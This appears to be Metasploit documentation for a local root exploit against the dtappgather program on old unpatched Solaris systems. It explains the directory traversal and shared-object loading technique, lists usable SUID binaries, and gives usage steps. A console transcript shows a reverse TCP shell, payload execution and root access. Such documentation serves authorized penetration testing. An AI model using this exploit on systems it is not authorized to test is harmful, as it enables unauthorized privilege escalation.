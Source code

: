 ## Description

  This module exploits a directory traversal vulnerability in the
  `dtappgather` executable included with Common Desktop Environment (CDE)
  on unpatched Solaris systems prior to Solaris 10u11 which allows users
  to gain root privileges.

  dtappgather allows users to create a user-owned directory at any
  location on the filesystem using the `DTUSERSESSION` environment
  variable.

  This module creates a directory in `/usr/lib/locale`, writes a shared
  object to the directory, and runs the specified SUID binary with the
  shared object loaded using the `LC_TIME` environment variable.


## Vulnerable Application

  This module has been tested successfully on:

  * Solaris 9u7 (09/04) (x86)
  * Solaris 10u1 (01/06) (x86)
  * Solaris 10u2 (06/06) (x86)
  * Solaris 10u4 (08/07) (x86)
  * Solaris 10u8 (10/09) (x86)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/extremeparr_dtappgather_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`.

  **DTAPPGATHER_PATH**

  Path to `dtappgather` executable. (default: `/usr/dt/bin/dtappgather`)

  **SUID_PATH**

  Path to suid executable. (default: `/usr/bin/at`)

  Some useful example SUID executables:

  * /usr/bin/at
  * /usr/bin/cancel
  * /usr/bin/chkey
  * /usr/bin/lp
  * /usr/bin/lpset
  * /usr/bin/lpstat
  * /usr/lib/lp/bin/netpr
  * /usr/sbin/lpmove


## Scenarios

### Solaris 10u1 (x86)

  ```
  msf5 > use exploit/solaris/local/extremeparr_dtappgather_priv_esc 
  msf5 exploit(solaris/local/extremeparr_dtappgather_priv_esc) > set session 1
  session => 1
  msf5 exploit(solaris/local/extremeparr_dtappgather_priv_esc) > set lhost 172.16.191.196
  lhost => 172.16.191.196
  msf5 exploit(solaris/local/extremeparr_dtappgather_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.196:4444 
  [+] Created directory /usr/lib/locale/ExDmW
  [*] Writing '/tmp/.Wfy7WpcZej/.pv7h2R.c' (170 bytes) ...
  [*] Writing '/tmp/.Wfy7WpcZej/.uGjK3nLc5' (175 bytes) ...
  [*] Executing payload...
  [!] Tried to delete /var/dt/appconfig/appmanager, unknown result
  [+] Deleted /tmp/.Wfy7WpcZej/.pv7h2R.c
  [+] Deleted /tmp/.Wfy7WpcZej/.pv7h2R
  [+] Deleted /usr/lib/locale/ExDmW/ExDmW.so.2
  [+] Deleted /usr/lib/locale/ExDmW/ExDmW.so.3
  [+] Deleted /tmp/.Wfy7WpcZej/.uGjK3nLc5
  [+] Deleted /usr/lib/locale/ExDmW
  [+] Deleted /tmp/.Wfy7WpcZej

  id
  uid=0(root) gid=0(root)
  uname -a
  SunOS unknown 5.10 Generic_118844-26 i86pc i386 i86pc
  cat /etc/release
                          Solaris 10 1/06 s10x_u1wos_19a X86
             Copyright 2005 Sun Microsystems, Inc.  All Rights Reserved.
                          Use is subject to license terms.
                             Assembled 07 December 2005
  ```

